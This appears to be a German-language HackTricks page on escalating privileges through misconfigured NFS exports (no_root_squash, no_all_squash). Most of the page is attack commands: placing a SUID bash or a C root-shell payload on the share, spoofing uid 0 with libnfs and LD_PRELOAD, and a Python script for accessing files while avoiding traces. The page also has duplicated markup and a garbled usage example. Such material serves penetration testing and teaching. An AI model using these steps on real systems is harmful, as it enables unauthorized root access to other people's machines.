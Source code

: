 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}


Lese die _ **/etc/exports** _ Datei. Wenn du ein Verzeichnis findest, das als **no\_root\_squash** konfiguriert ist, kannst du **darauf zugreifen** **als Client** und **in dieses Verzeichnis schreiben**, **als ob** du der lokale **root** der Maschine wärst.

**no\_root\_squash**: Diese Option gibt im Grunde dem root-Benutzer auf dem Client die Berechtigung, Dateien auf dem NFS-Server als root zuzugreifen. Und das kann zu ernsthaften Sicherheitsproblemen führen.

**no\_all\_squash:** Dies ist ähnlich wie die Option **no\_root\_squash**, gilt jedoch für **Nicht-Root-Benutzer**. Stell dir vor, du hast eine Shell als Benutzer nobody; hast die /etc/exports Datei überprüft; die Option no\_all\_squash ist vorhanden; überprüfe die /etc/passwd Datei; emuliere einen Nicht-Root-Benutzer; erstelle eine SUID-Datei als dieser Benutzer (indem du NFS verwendest). Führe die SUID als Benutzer nobody aus und werde ein anderer Benutzer.

# Privilegieneskalation

## Remote Exploit

Wenn du diese Schwachstelle gefunden hast, kannst du sie ausnutzen:

* **Montiere dieses Verzeichnis** auf einer Client-Maschine und **kopiere als root** die **/bin/bash** Binärdatei in den gemounteten Ordner und gib ihr **SUID**-Rechte, und **führe von der Opfer**-Maschine diese Bash-Binärdatei aus.
```bash
#Attacker, as root user
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHAREDD_FOLDER>
./bash -p #ROOT shell
```
* **Das Verzeichnis** auf einem Client-Rechner einbinden und **als root** unser kompiliertes Payload in den eingebundenen Ordner kopieren, das die SUID-Berechtigung ausnutzt, ihm **SUID**-Rechte geben und **von der Opfer**-Maschine diese Binärdatei ausführen (hier finden Sie einige [C SUID-Payloads](payloads-to-execute.md#c)).
```bash
#Attacker, as root user
gcc payload.c -o payload
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /tmp/payload .
chmod +s payload

#Victim
cd <SHAREDD_FOLDER>
./payload #ROOT shell
```
## Lokaler Exploit

{% hint style="info" %}
Beachten Sie, dass Sie, wenn Sie einen **Tunnel von Ihrem Rechner zum Opferrechner erstellen können, weiterhin die Remote-Version verwenden können, um diese Privilegieneskalation durch Tunneln der erforderlichen Ports auszunutzen**.\
Der folgende Trick gilt, falls die Datei `/etc/exports` **eine IP angibt**. In diesem Fall **werden Sie auf keinen Fall** die **Remote-Exploit** verwenden können und müssen **diesen Trick ausnutzen**.\
Eine weitere erforderliche Bedingung, damit der Exploit funktioniert, ist, dass **der Export in `/etc/export`** **das `insecure`-Flag verwenden muss**.\
\--_Ich bin mir nicht sicher, ob dieser Trick funktioniert, wenn `/etc/export` eine IP-Adresse angibt_--
{% endhint %}

## Grundinformationen

Das Szenario beinhaltet das Ausnutzen eines gemounteten NFS-Teils auf einem lokalen Rechner, wobei eine Schwachstelle in der NFSv3-Spezifikation ausgenutzt wird, die es dem Client ermöglicht, seine uid/gid anzugeben, was potenziell unbefugten Zugriff ermöglicht. Der Exploit beinhaltet die Verwendung von [libnfs](https://github.com/sahlberg/libnfs), einer Bibliothek, die das Fälschen von NFS-RPC-Aufrufen ermöglicht.

### Kompilieren der Bibliothek

Die Schritte zum Kompilieren der Bibliothek können je nach Kernelversion Anpassungen erfordern. In diesem speziellen Fall wurden die fallocate-Systemaufrufe auskommentiert. Der Kompilierungsprozess umfasst die folgenden Befehle:
```bash
./bootstrap
./configure
make
gcc -fPIC -shared -o ld_nfs.so examples/ld_nfs.c -ldl -lnfs -I./include/ -L./lib/.libs/
```
### Durchführung des Exploits

Der Exploit besteht darin, ein einfaches C-Programm (`pwn.c`) zu erstellen, das die Berechtigungen auf root erhöht und dann eine Shell ausführt. Das Programm wird kompiliert, und die resultierende Binärdatei (`a.out`) wird mit suid root auf dem Share platziert, wobei `ld_nfs.so` verwendet wird, um die uid in den RPC-Aufrufen zu fälschen:

1. **Kompilieren Sie den Exploit-Code:**
```bash
cat pwn.c
int main(void){setreuid(0,0); system("/bin/bash"); return 0;}
gcc pwn.c -o a.out
```

2. **Platzieren Sie den Exploit auf dem Share und ändern Sie seine Berechtigungen, indem Sie die uid fälschen:**
```bash
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so cp ../a.out nfs://nfs-server/nfs_root/
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chown root: nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod o+rx nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_LIBRARY_PATH=./lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod u+s nfs://nfs-server/nfs_root/a.out
```

3. **Führen Sie den Exploit aus, um root-Rechte zu erlangen:**
```bash
/mnt/share/a.out
#root
```

## Bonus: NFShell für stealthy Datei-Zugriff
Sobald root-Zugriff erlangt wurde, wird ein Python-Skript (nfsh.py) verwendet, um mit dem NFS-Share zu interagieren, ohne den Besitz zu ändern (um Spuren zu vermeiden). Dieses Skript passt die uid an die des zuzugreifenden Files an, sodass die Interaktion mit Dateien auf dem Share ohne Berechtigungsprobleme möglich ist:
```python
#!/usr/bin/env python
# script from https://www.errno.fr/nfs_privesc.html
import sys
import os

def get_file_uid(filepath):
try:
uid = os.stat(filepath).st_uid
except OSError as e:
return get_file_uid(os.path.dirname(filepath))
return uid

filepath = sys.argv[-1]
uid = get_file_uid(filepath)
os.setreuid(uid, uid)
os.system(' '.join(sys.argv[1:]))
```
Führen Sie aus wie:
```bash
# ll ./mount/
drwxr-x---  6 1008 1009 1024 Apr  5  2017 9.3_old
```
{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
